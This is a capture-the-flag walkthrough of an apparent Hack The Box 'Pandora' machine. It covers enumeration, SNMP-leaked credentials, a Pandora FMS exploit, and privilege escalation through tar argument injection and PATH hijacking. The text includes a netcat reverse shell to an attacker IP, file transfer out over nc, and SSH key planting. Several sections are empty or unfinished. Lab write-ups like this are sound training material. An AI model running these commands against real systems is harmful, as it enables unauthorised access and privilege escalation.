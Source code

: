 #Pwned! 
```IP
10.10.11.136
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 10.10.11.136 -vvv -p- -oN enum/full
```
The output being:
```

```
## HTTP 80
Apache httpd 2.4.41
## SNMP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217112117.png?raw=true)
```
daniel:HotelBabylon23
```

# Exploitation

# PrivEsc

## Manual
```
ssh daniel@10.10.11.136
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217112534.png?raw=true)

## Automated

### Peass

/tmp/pspy64

lrwxrwxrwx 1 root root 22 Jun 11  2021 /etc/alternatives/my.cnf -> /etc/mysql/mariadb.cnf                                                                                                                                                  
lrwxrwxrwx 1 root root 24 Jun 11  2021 /etc/mysql/my.cnf -> /etc/alternatives/my.cnf                                                                                                                                                       
-rw-r--r-- 1 root root 83 Dec  7  2021 /var/lib/dpkg/alternatives/my.cnf  
/etc/apache2/sites-enabled/pandora.conf
/usr/bin/pandora_backup


If we curl localhost we get the pandora http webpage
We use ligolo for portforwarding and to access it from our browser 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123241.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123255.png?raw=true)
Now we have access from our machine:
```
curl 240.0.0.1
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123457.png?raw=true)
The webpage has a login access:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123339.png?raw=true)
When using the daniel credentials we already had it prompts the following error:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123134.png?raw=true)

v7.0NG.742_FIX_PERL2020
RCE exploit for our Pandora version:
https://www.exploit-db.com/exploits/50961
```
python exploit.py -t 240.0.0.1 80 -u daniel 'HotelBabylon23' -c 'whoami'
```
It does not work with our credentials as shown below:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217124015.png?raw=true)

https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated
```
python sqlpwn.py -t 240.0.0.1 -f rev.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217164522.png?raw=true)
We can spawn a bash shell with busybox
```
busybox nc 10.10.14.16 443 -e sh
```
And then upgrade it with python3
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217165745.png?raw=true)
We got the flag!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217165937.png?raw=true)
We locate some credentials
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217170815.png?raw=true)
pandora:PandoraFMSSecurePass2021
We can't log to the mysql server with these credentials though
```
find / -perm -u=s -type f 2>/dev/null
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217174749.png?raw=true)
This is not a common file to have SUID permissions. Let's take a closer look to it.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217174913.png?raw=true)
we have execution and reading privileges over it as matt, but it belongs to the root user. Suspicious.

We transfer the file to our local machine in order to execute the strings command over it:
```
nc 10.10.14.16 4444 < /usr/bin/pandora_backup
nc -lvnp 4444 > pandora_backup
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217175114.png?raw=true)
Once we execute the strings command over it we can see that it is executing tar without a full path, which can become a privilege escalation vector:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217175309.png?raw=true)
In GTFOBins we can find how to exploit this permission. It will read everything in the /var/www/pandora/pandora_backup/ directory, so we can create files that mimic a flag. The following flags can execute code as stated in the following URL:
https://gtfobins.github.io/gtfobins/tar/

```
echo "" > ' --checkpoint=1'
echo "" > ' --checkpoint-action=exec=sh'
```
Now we will execute the binary:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217180820.png?raw=true)
And it fails. For some reason sudo -l does not request us any password. for some reason setuserID user calls are broken.
With 
```
ps -ef
```
we can trace back what are our current process parents, and we will see that apache is one of them
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217181507.png?raw=true)
If we take a look at its configuration we will discover that there is a SetUserID that is breaking our same call
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217181700.png?raw=true)
We have to escape apache, so we will create  ssh keys in our machine
```
ssh-keygen -f matt
```
```
mkdir /home/matt/.ssh
cd /home/matt/.ssh
wget http://10.10.14.16:8000/matt.pub -O authorized_keys
```
And from our machine:
```
ssh -i matt matt@10.10.11.136
```
Which will bring us a shell that runs sudo fine.
We now run the program and it still does not work
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217183639.png?raw=true)
We can see that it is not executing our files as flags.... we will try yet another aproach. tar is executing without its full path. So we will create our own tar malicious file and inject a new directory to our PATH variable
```
echo '/bin/bash' > tar
chmod +x tar
export PATH=$(pwd):$PATH
/usr/bin/pandora_backup
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217184521.png?raw=true)
### Mimikatz

# Lateral Movement


